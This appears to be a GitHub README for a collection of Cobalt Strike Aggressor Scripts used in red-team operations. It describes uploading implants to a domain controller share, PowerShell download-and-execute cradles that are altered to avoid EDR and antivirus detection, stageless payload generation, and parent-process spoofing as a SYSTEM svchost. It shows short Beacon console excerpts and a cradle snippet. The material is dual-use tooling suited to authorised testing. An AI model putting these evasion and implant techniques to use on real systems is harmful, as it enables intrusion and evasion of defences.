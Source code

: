 ## cobalt-arsenal

My published set of Aggressor Scripts for Cobalt Strike 4.0+

- **`better-upload.cna`** - Simple yet **super handy** script that overrides built-in `upload` command by having one that offers additional, second parameter - being _remote file path_. By default we're only able to upload file to the CWD. This implementation let's us upload wherever we like:

```
beacon> upload implant.exe \\DC1\c$\windows\temp\implant.exe
[*] Tasked Beacon to upload file (size: 929.25KB) from: (implant.exe) to: (\\DC1\c$\windows\temp\implant.exe)
[+] host called home, sent: 951655 bytes

```

- **`cwd-in-beacon-status-bar.cna`** - Simple Beacon console status bar enhancement showing Beacon's last known current working directory path, as well as adding fixed-width to last-seen meter. Additionally, this script enhances `cd` command to make it restore previous path if `cd -` was issued (and previous path is known).

- **`custom-powershell-hooks.cna`** - This script introduces several different methods for Powershell download and execution primitives, other than Cobalt Strike's default `(Net.WebClient).DownloadString` and `IEX()`:
```
		set POWERSHELL_DOWNLOAD_CRADLE {
			return "IEX (New-Object Net.Webclient).DownloadString(' $+ $1 $+ ')";
		}
		[...]

		set POWERSHELL_COMMAND {
		[...]
			return "powershell -nop -w hidden -encodedcommand $script";
		}
```

Aforementioned methods are heavily flagged these days by EDRs and AVs so we would prefer to avoid their use. It so happens that Cobalt Strike by default embeds them excessively, generating lot of noise in such systems. We can tell Cobalt Strike to structure it's Powershell use patterns differently. However, some of introduced custom methods may not work. In such situations, we can always switch back to battle tested Cobalt Strike defaults by setting `$USE_UNSAFE_ENCODEDCOMMAND_AND_IEX = 2;` in the script's header.

- **`FilesColor.cna`** - Color Coded Files Listing. Similar to `ProcessColor.cna` by [@r3dQu1nn](https://github.com/harleyQu1nn/AggressorScripts) this script colorizes file listing outputs based on file type and extension. **It also tries to keep track of uploaded files to have them highlighted in files listing as well**. The Colors scheme information will be showed only three times by default, unless configured otherwise via global variable named `$TIMES_TO_DISPLAY_COLORS_SCHEME`.

![FilesColor example](https://raw.githubusercontent.com/mgeeky/cobalt-arsenal/master/img/1.PNG)

- **`Forwarded_Ports.cna`** - Keeps track of configured remote port forwardings on all Beacons and lets kill them easily. 

Using `rportfwd` here and there quickly consumes pool of available local ports from which to forward traffic outbound and keeping track of them manually becomes tedious on a long-haul projects. This script aims to fill that gap by collecting these commands and presenting them in a nice visualization pane (concept & implementation based on previous work of @ramen0x3f [leave_no_trace](https://github.com/ramen0x3f/AggressorScripts/blob/master/leave_no_trace.cna), @001SPARTaN and @r3dqu1nn [logvis.cna](https://github.com/invokethreatguy/AggressorCollection/blob/master/harleyQu1nn/logvis.cna) ).

- **`Highlight_Beacons.cna`** - Highlights Beacons for a specified time duration (`$HIGHLIGHT_DURATION`) on Initial check-in event, when exiting (and after Beacon exited) and after each Beacon command's output. Configurable colors and events found in `%HIGHLIGHTS` dictionary. Hint: Specify `output => ""` to disable highlighting new Beacon command outputs.

- **`httprequest.cna`** - Safe & sound HTTP request implementation for Cobalt Strike 4.0 Aggressor Script. Works with HTTP & HTTPS, GET/POST/etc. + redirections. Rationale: I've tested various implementations of HTTP request sending subroutines written in Sleep for CS, but none of them matched by needs - working support for GET/POST, redirections handling and exceptions-safe execution. So I came up with my own implementation. ([gist](https://gist.github.com/mgeeky/2d7f8c2a6ffbfd23301e1e2de0312087)) 

- **`Payload_Variants_Generator.cna`** - This script generates stageless payload variants per each available architecture and output format type. Compatible with Cobalt Strike 4.0+.

- **`parse-error-codes.cna`** - A handy script that parses reported error codes and prints their corresponding Windows related meaning directly in Beacon's console output.

  **From:**
  ```
  beacon> ls C:\gdgsdfgdf
  [-] could not open C:\gdgsdfgdf\*: 3
  ```

  **To:**
  ```
  beacon> ls C:\gdgsdfgdf
  [-] could not open C:\gdgsdfgdf\*: 3. Parsed error code:
      3 - ERROR_PATH_NOT_FOUND
  ```

- **`settings.cna`** - Script that offers sample implementation for `saveOptions` and `loadOptions` routines, intended to store & restore settings from an external file.

- **`smart-autoppid.cna`** - Autoppid - script that smartely invokes PPID for every new checkin in Beacon. PPID command requires invoked Beacon to have the same Integrity level as the process it want's to assume as it's Parent. That's due to how InitializeProcThreadAttributeList with PROC_THREAD_ATTRIBUTE_PARENT_PROCESS works. In order to avoid harcoded explorer.exe PID assumption, we can look around for a configurable process name and then try to find that process running on the highest available for us integrity level. In that case, unprivileged user would assume PPID of for instance svchost.exe running as that user, wherease the privileged one - could go for the svchost.exe running as NT AUTHORITY\SYSTEM. We aim to smartely pick the most advantageous target, in a dynamic fashion.

The same command is also exposed as an alias:

```
beacon> autoppid
[*] Tasked Beacon to find svchost.exe running as SYSTEM and make it the PPID.
[.] host called home, sent: 12 bytes
Future post-ex jobs will be spawned with fake PPID set to:
	svchost.exe	604	700	x64	NT AUTHORITY\SYSTEM	0

[*] Tasked beacon to spoof 700 as parent process
[.] host called home, sent: 12 bytes
```

